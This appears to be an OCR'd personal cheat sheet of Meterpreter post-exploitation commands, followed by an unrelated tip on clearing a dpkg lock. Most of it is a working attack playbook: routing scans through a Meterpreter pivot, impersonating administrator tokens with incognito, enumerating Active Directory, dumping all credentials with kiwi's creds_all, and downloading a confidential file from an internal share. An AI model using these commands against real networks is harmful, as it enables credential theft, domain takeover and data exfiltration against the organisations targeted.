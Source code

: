 # We can now use nmap with proxychains to redirect the whole scan. using proxychain we are able to redirect nmap traffic through MSF proxy, then redirect it through meterpreter 

# Use incognito to impersonate administrator in windows via meterpreter to obtain domain access/root
use incognito
list_tokens -u
impersonate_token TOKEN_NAME\\GOES_HERE

# Get information from the AD infrastructure by loading the extapi extension, then enumerate computer and users:
load extapi
adsi_computer_enum DOMAIN_NAME_HERE
adsi_user_enum	DOMAIN_NAME_HERE

# Load kiwi module via meterpreter and dump ALL CREDENTIALS
load kiwi
creds_all 

# list shares without any credentials on  windows machine 
net view 172.30.111.10

# without using any credentials, we are able to enumerate shares on the target. We can now navigate organization machine shares and use the net use command and download shares for viewing
net use K: \\172.30.111.10\FooComShare
download K:\\Confidential.txt

## FIX DPKG LOCK ERROR ##################################

# Use the Linux command line to find and kill the running process. To do that, use the command below:
ps aux | grep -i X

# This will show the id of the process running apt or apt-get. In the example below, the process id is 7343. You can use the process id to terminate it by sending the SIGTERM signal. Replace the <process_id> with the number you got in the output 
sudo kill <process_id>
